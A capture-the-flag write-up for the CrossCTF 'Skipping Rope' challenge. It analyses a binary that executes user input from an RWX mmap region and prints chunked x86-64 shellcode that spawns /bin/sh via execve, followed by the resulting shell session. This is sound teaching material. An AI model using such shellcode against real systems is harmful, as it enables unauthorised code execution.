



# Skipping Rope

> How high and how fast can you go on the skipping rope?
>  
> nc ctf.pwn.sg 1501
>  
> Creator - amon (@nn_amon)


### Program analysis

The binary is not stripped, and has no PIE. As the assembly will later show, its vulnerability to stack smashing plays no role here as we can execute instructions in the executable `mmap` memory.
```
$ file skippingrope
skippingrope: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=38456d1c9186fddf7bdcacfd49058963a8f23815, not stripped
```
```
checksec skippingrope
[*] '/home/solomonbstoner/Desktop/CTF Guides/xctf 2018/skipping rope/skippingrope'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

Now let's take a look at the assembly of the program. `<main>` only calls `<skipping_rope>`. That is our function of interest.




The function calls `mmap(0, 0x2000, 7, 0x22, 0xffffffff, 0)`. The argument `7` is a binary OR of `PROT_EXEC | PROT_READ | PROT_WRITE`, meaning the mapped memory is readable, writable and executable.

`mmap` returns the memory address of the mapped memory. In this case it returns `0x7ffff7ff5000`. `info proc mappings` show the mapped memory.
```
(gdb) p/x $rax
$1 = 0x7ffff7ff5000
(gdb) info proc mappings
process 8944
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      [...]
      0x7ffff7ff5000     0x7ffff7ff7000     0x2000        0x0 
      [...]
```

The screenshot below shows that the function reads user input into the first 6 bytes of every 16 bytes of the mapped memory. A total of 1536 bytes are read. 




After reading user input, the function executes user input starting at the beginning of the mapped memory space.



Given an input `"AAAAA....AAAA"`, this is how the mapped memory looks like.
```
(gdb) x/32wx $rdx
0x7ffff7ff5000:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5010:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5020:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5030:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5040:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5050:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5060:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5070:	0x41414141	0x00004141	0x00000000	0x00000000
(gdb) 
```
We received segfault soon after as `rip` was loaded with `0x4141414141414141`. Next stop was to find the appropriate instructions input so that upon execution, we'd get a shell.

### Successful exploit

Initially the plan was to use `read` to read over the remaining 10 bytes in the mapped memory that was not written earlier to make it easier to include a binsh shell. It did not work. `syscall` did not even call `read` at all. (Well... its returned value showed 0x0, which means the read should have been successful, but the memory it was supposed to read into showed no changes.

Then we thought to use `execve('sh', null, null)` to get the bash shell. (because `push 0x0068732f6e69622f` takes more than 6 bytes). `syscall` returned either -14 or -2, and no shell was executed.

Pushing values by bytes (e.g. `push 0x00; push 0x68; push 0x73;` etc) does not work as well. `RSP` decreases by QWORD for each `push`, so there are alot of null bytes in between the characters.

Lastly we realised we could `mov` the string `'/bin/sh'` into a register byte by byte before pushing the register's value into the stack. This is how we managed to call `execve('/bin/sh', null, null)` with assembly instructions less than 4 bytes. We cannot use all 6 bytes because the last 2 bytes are used for the `jmp` instruction to jump to the next 6 bytes. 
```
xor rax, rax
jmp #0xa


mov al, 0x68
mov ah, 0x00			# rax = 0x0000000000000068
jmp #0xa

shl rax, 16
jmp #0xa

mov al, 0x2f
mov ah, 0x73			# rax = 0x000000000068732f
jmp #0xa

shl rax, 16
jmp #0xa

mov al, 0x69
mov ah, 0x6e			# rax = 0x00000068732f6e69
jmp #0xa

shl rax, 16
jmp #0xa

mov al, 0x2f
mov ah, 0x62			# rax = 0x0068732f6e69622f
jmp #0xa

push rax
mov rdi, rsp
jmp #0xa

xor rax, rax
jmp #0xa

mov ax, 0x3b
jmp #0xa

xor rsi, rsi
jmp #0xa

xor rdx, rdx
jmp #0xa

syscall
```

The whole Python script we created is in `soln_for_skipping_rope.py`. After running the script, we got a shell and the flag.
```
$ python2 soln_for_skipping_rope.py 
[+] Opening connection to ctf.pwn.sg on port 1501: Done
[*] Switching to interactive mode
$ whoami
skippingropeuser
$ find . -iname "flag"
find: './root': Permission denied
find: './var/lib/apt/lists/partial': Permission denied
find: './var/spool/cron/crontabs': Permission denied
find: './var/spool/rsyslog': Permission denied
find: './var/cache/ldconfig': Permission denied
find: './var/cache/apt/archives/partial': Permission denied
find: './proc/tty/driver': Permission denied
find: './proc/1/task/1/fd': Permission denied
find: './proc/1/task/1/fdinfo': Permission denied
find: './proc/1/task/1/ns': Permission denied
find: './proc/1/fd': Permission denied
find: './proc/1/map_files': Permission denied
find: './proc/1/fdinfo': Permission denied
find: './proc/1/ns': Permission denied
./home/skippingropeuser/flag
$ cat ./home/skippingropeuser/flag
CrossCTF{With_a_hip_hop_the_hippie_to_the_hippie}
```
